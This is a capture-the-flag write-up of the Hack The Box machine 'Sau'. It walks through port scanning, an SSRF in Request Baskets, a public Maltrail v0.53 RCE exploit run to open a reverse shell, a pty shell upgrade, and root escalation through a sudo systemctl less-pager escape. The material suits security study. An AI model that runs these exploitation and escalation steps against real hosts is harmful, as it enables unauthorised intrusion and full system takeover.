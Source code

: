 ```yaml
---
layout: post
title:  "[HTB] Sau"
date:   2024-01-12
categories: CTF
---
```


# > Recon

Let us start with our nmap scan

---

Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-12 00:26 EST
Nmap scan report for 10.10.11.224
Host is up (0.058s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 13.82 seconds

---

We can see that we have port 22, 80 and 55555, but port 80 is filtered so we cannot visit this even if we try, so we first try visiting port 55555.

![Alt text](/assets/uploads/htb-sau/2024-01-12 13_29_55.png)

We see that this is Request Baskets and upon searching about this, we find that there is an SSRF issue here that we can leverage.
We can forward port 80 to this request basket. 

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_05_51.png)

Now we can visit visit http://sau.htb:55555/mhvi3fu and see that port 80 is running Maltrail v0.53. With some searching, we can see that there is an RCE vulnerability on this https://github.com/spookier/Maltrail-v0.53-Exploit


# > Exploitation
Let us clone this repository, setup a listener on port 111 and run the exploit to get a reverse shell

---

python3 exploit.py 10.10.14.36 1111 http://sau.htb:55555/mhvi3fu

---

We can now obtain the user flag at /home/puma/user.txt

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_11_48.png)

At this point, let us also upgrade our shell to a pty shell by running

---

python3 -c 'import pty; pty.spawn("/bin/bash")'

---

# > Privilege Escalation

Running sudo -l reveals that we can run sudo on /usr/bin/systemctl status trail.service

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_17_23.png)

So let us do that and we can see that the systemctl is running the less command to show us all the information, so what we can do is to run !sh to exit the terminal and we retain sudo privileges

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_19_25.png)

Now we can just obtain the root flag at /root/root.txt

![Alt text](/assets/uploads/htb-sau/2024-01-12 14_20_27.png)


